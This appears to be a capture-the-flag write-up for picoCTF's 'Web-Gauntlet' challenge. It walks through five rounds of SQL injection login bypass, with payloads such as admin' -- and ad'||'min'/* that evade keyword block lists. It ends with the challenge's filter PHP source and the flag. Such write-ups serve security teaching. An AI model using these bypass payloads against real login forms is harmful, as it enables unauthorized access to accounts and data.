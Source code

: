 ```yaml
---
title: "Web-Gauntlet"
date: "2020-12-22"
author: "RealFakeAccount"
description: "https://play.picoctf.org/practice/challenge/88?category=1&page=1"
---
```

Put any username and password and you can see the SQL query.

<http://jupiter.challenges.picoctf.org:19593/filter.php> tells us which words is banned.

*Notes:*

Here is some common way to comment in SQL:
1. #
2. --
3. //
4. /**/
5. ; %00

### Round 1

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
or
```

For the detail of the banned "OR" method, see <https://owasp.org/www-community/attacks/SQL_Injection>

let's use another methods.

We can change the username into `admin' --`, so the original SQL query becomes:

```sql
SELECT * FROM users WHERE username='admin' --' AND password='a'
```

which comments out the password part.

### Round 2

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
or and like = --
```

Use ; to force break the query. 

Our username input is: `admin' ;`

and the SQL query becomes:

```sql
SELECT * FROM users WHERE username='admin' ;' AND password='a'
```

### Round 3


Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
   or and = like > < --
```

Note that Space is also in this filter. Use "View page Sourse" to see the space. 

So we can just erase the block in previous round: `admin';`, which gives us

```sql
SELECT * FROM users WHERE username='admin';' AND password='a'
```

### Round 4

They banned the `admin` now. Also, our `;` doess not work in this question.

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
or and = like > < -- admin
```

Luckly, SQL have some function to concatenate string: `CONCAT`, `+`, `||`

After a few trial, we find that `||` worked.

Our payload is: `ad'||'min'/*`

```sql
SELECT * FROM users WHERE username='ad'||'min'/*' AND password='a'
```

### Round 5

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
 or and = like > < -- union admin```
```

Previous one still work.

```sql
SELECT * FROM users WHERE username='ad'||'min'/*' AND password='a'
```

After finish all 5 rounds, we can finally see the filter php file:

```php
 <?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}
?> 
```